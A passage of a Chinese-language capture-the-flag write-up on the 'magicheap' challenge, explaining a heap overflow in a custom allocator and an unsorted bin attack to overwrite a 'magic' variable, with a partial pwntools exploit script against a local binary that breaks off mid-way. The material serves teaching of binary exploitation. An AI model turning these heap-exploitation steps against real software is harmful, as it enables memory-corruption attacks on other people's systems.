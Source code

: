 可以看出，該程序是一個動態鏈接的64程序，主要開啓了 NX 保護與 Canary 保護。

### 基本功能

程序大概就是自己寫的堆管理器，主要有以下功能

1. 創建堆。根據用戶指定大小申請相應堆，並且讀入指定長度的內容，但是並沒有設置 NULL。
2. 編輯堆。根據指定的索引判斷對應堆是不是非空，如果非空，就根據用戶讀入的大小，來修改堆的內容，這裏其實就出現了任意長度堆溢出的漏洞。
3. 刪除堆。根據指定的索引判斷對應堆是不是非空，如果非空，就將對應堆釋放並置爲 NULL。

同時，我們看到，當我們控制 v3 爲 4869，同時控制 magic 大於 4869，就可以得到 flag 了。

### 利用

很顯然， 我們直接利用 unsorted bin attack 即可。

1. 釋放一個堆塊到 unsorted bin 中。
2. 利用堆溢出漏洞修改 unsorted bin 中對應堆塊的 bk 指針爲 &magic-16。
3. 觸發漏洞即可。

代碼如下

```Python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

r = process('./magicheap')


def create_heap(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit_heap(idx, size, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def del_heap(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


create_heap(0x20, "dada")  # 0
create_heap(0x80, "dada")  # 1
# in order not to merge into top chunk
create_heap(0x20, "dada")  # 2

del_heap(1)

magic = 0x6020c0
fd = 0
```